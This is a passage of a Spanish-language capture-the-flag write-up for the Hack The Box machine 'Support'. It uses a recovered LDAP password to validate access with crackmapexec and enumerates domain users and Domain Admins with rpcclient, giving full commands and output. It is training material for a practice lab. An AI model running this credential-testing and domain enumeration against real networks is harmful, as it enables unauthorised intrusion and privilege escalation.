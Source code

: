 ## VALIDATING LDAP CREDENTIALS

Antes que cualquier cosa, debemos volver a activar nuestra vpn en la máquina atacante con `OpenVPN`, luego de esto procedemos a validar las credenciales obtenidas anteriormente

### VALIDAR CREDS SMB

```bash
crackmapexec smb 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
```bash
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

### VALIDAR CREDS WINRM
```bash
crackmapexec winrm 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
```bash
SMB         10.10.11.174    5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [-] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Las credenciales son validas para `smb` pero no es una cuenta con privilegios

## RCPCLIENT ENUM (WITH CREDS)

Ahora tenemos lo necesario para extraer usuarios del controlador de dominio por medio de las credenciales validas encontradas anteriormente, adicionalmente vamos a enumerar un poco mas de información

### OBTENER LISTADO DE USUARIOS
```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c enumdomusers | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users.txt
```

### GRUPOS ADMINISTRADORES
```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c enumdomgroups
```
```bash
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
```

### USUARIOS ADMINISTRADORES
```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c 'querygroupmem 0x200'
```
```bash
	rid:[0x1f4] attr:[0x7]
```
